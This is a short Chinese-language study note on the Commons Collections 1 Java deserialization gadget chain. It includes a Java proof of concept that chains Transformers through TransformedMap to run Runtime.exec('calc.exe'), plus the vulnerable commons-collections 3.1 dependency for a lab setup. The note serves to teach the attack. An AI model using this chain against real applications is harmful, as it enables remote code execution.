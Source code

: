 主要由于Transformer接口，产生了各类cc链，TransformedMap中有可利用的函数去触发所需类中的transform函数，利用ChainedTransformer将我们需要的直接利用类打包起来，ConstantTransformer可以通过transform将所需的类返回，InvokerTransformer使用transform将所需的方法和参数封装返回

只能作用于jdk8u

```
package com.example.demo;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```



## 搭建环境

在pom.xml中添加依赖

```
 <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
```

